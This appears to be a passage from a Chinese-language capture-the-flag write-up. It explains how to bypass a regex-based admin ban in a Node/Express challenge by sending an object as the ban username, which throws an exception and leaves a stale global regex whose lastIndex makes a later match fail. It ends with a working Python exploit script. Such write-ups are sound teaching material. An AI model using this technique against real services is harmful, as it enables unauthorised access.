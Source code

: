 你发现此处存在漏洞利用的可能，

但在 `app.use()` 中，你又发现了这些：

```JavaScript
// 每次请求前，更新封禁用户正则信息
app.use(function (req, res, next) {
    try {
        build_banned_users_regex()
        console.log("封禁用户正则表达式（满足这个正则表达式的用户名为被封禁用户名）：",banned_users_regex)
    } catch (e) {
    }
    next()
})
let banned_users_regex = null;
function build_banned_users_regex() {
    let regex_string = ""
    for (let username of banned_users) {
        regex_string += "^" + escapeRegExp(username) + "$" + "|"
    }
    regex_string = regex_string.substring(0, regex_string.length - 1)
    banned_users_regex = new RegExp(regex_string, "g")
}
function escapeRegExp(string) {
    return string.replace(/[.*+?^${}()|[\]\\]/g, '\\$&');
}
```

如果不出意外的话，每次在请求时都会创建一个新的 banned_users_regex ，恢复其 lastIndex 位置为初始值0

除非？除非你能在新的regex对象赋值之前，抛出 异常 来绕过 regex 的更新！

因为try catch的存在，在build_banned_users_regex方法内抛出异常不会导致请求被中断

在一番冥思苦想的苦苦坐牢后，你参透了 JavaScript 数据类型的奥秘

发现如果传入 escapeRegExp(string) 函数中的 string 参数为非字符串类型，

则string不存在 replace 属性，会抛出TypeError，如此来绕过 regex 的更新

于是你领悟了 X1r0z 114 出题的奥秘，总而言之就是： 

1. 访问 /api/ban_user 路由，构造传入参数 ban_username 为 对象、数组 等其他数据类型 
2. 访问 /api/flag ，正则匹配成功，使得 regex 的 lastIndex 移至 "admin".length 以后 
3. 访问 /api/flag，正则匹配失败，成功绕过正则 waf，正则 waf 返回 false，获得 flag

exp:

```Python
import requests

remote_addr="http://"

rs = requests.Session()

resp = rs.post(remote_addr+"/api/register",json={"username":"test","password":"test"})
print(resp.text)

resp = rs.post(remote_addr+"/api/ban_user",json={"username":"test","password":"test","ban_username":{"toString":""}})
print(resp.text)

resp = rs.post(remote_addr+"/api/flag",json={"username":"admin","password":"admin"})
print(resp.text)
resp = rs.post(remote_addr+"/api/flag",json={"username":"admin","password":"admin"})
print(resp.text)
```
